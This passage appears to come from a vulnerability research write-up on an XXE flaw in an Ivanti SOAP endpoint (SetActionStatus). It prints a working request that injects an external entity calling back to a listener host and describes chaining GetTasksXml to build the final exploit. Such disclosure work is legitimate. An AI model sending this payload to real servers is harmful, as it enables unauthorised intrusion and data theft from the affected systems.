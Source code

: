 ### Exploiting XXE: Turning Theory Into Action

Now, it is time we get our hands dirty. Let's paste the sample request:

```xml
<?xml version="1.0" encoding="utf-8"?>
  <soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
    <soap:Body>
      <SetActionStatus xmlns="http://tempuri.org/">
        <historyTaskIDN>100</historyTaskIDN>
        <historyEntryIDN>5</historyEntryIDN>
        <nextHistoryEntryIDN>0</nextHistoryEntryIDN>
        <actionState>NEED_REBOOT</actionState>
        <internalRetval>1</internalRetval>
        <externalRetval>1</externalRetval>
        <strCapturedText>string</strCapturedText>
        <Variables>
          <UserVariable>
            <Name>string</Name>
            <Value>string</Value>
            <VariableOperation>add</VariableOperation>
          </UserVariable>
          <UserVariable>
            <Name>string</Name>
            <Value>string</Value>
            <VariableOperation>add</VariableOperation>
          </UserVariable>
        </Variables>
        <actionXml><![CDATA[
  <!DOCTYPE foo [<!ENTITY example SYSTEM 
  "http:///192.168.1.44:8000"> ]>
  <data>&example;</data>
  ]]>
  </actionXml>
      </SetActionStatus>
    </soap:Body>
  </soap:Envelope>
```

Observing the request within the Burp Suite showed a 200 response and we observe a hit on our listener:

![XXE Exploit Sample - Burp Suite](/img/ivanti-cve-2024-37397/xxe-showcase.jpg)

# Crafting the Final Exploit

From the previous analysis, we understood that a valid `historyEntryID` is required to perform the `SetActionStatus` action. Like most exploits, my aim was to minimize dependencies on pre-existing data. In this case, we can leverage the `GetTasksXml` method to retrieve valid IDs and use them in the `SetActionStatus` request alongside our XXE payload, leading to the final exploit.
